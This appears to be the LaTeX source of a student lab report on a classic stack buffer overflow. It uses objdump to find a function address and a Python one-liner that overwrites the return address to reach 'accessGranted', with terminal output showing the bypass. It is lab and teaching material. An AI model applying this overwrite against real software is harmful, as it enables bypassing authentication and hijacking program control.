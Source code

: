 \documentclass[12pt]{article}
\begin{document}
\section{Exploiting the Buffer Overflow}

\subsection{Finding the Address of \texttt{accessGranted}}

The \texttt{objdump} utility was used to find the address of the \texttt{accessGranted} function:

\begin{lstlisting}[style=terminal]
student@desktop:~/buffer_oflow$ objdump -d buffer_oflow1 | grep accessGranted
080484ac <accessGranted>:
\end{lstlisting}

The address is \texttt{0x080484ac}.

\subsection{Determining the Buffer Size}

A series of inputs with increasing lengths of 'A's were tested to cause a segmentation fault, indicating a buffer overflow.

\subsection{Crafting the Exploit}

An input string was constructed with 82 'A's followed by the address of \texttt{accessGranted} in little-endian format:

\begin{lstlisting}[style=terminal]
student@desktop:~/buffer_oflow$ python -c 'print "A"*82 + "\xac\x84\x04\x08"' | ./buffer_oflow1
Enter password: Access Denied . . . 
Access Granted!
"Progress isn't made by early risers. It's made by lazy men trying to find easier ways to do something."
- Robert Heinlein
Segmentation fault (core dumped)
\end{lstlisting}

\section{Lab Questions}
\end{document}
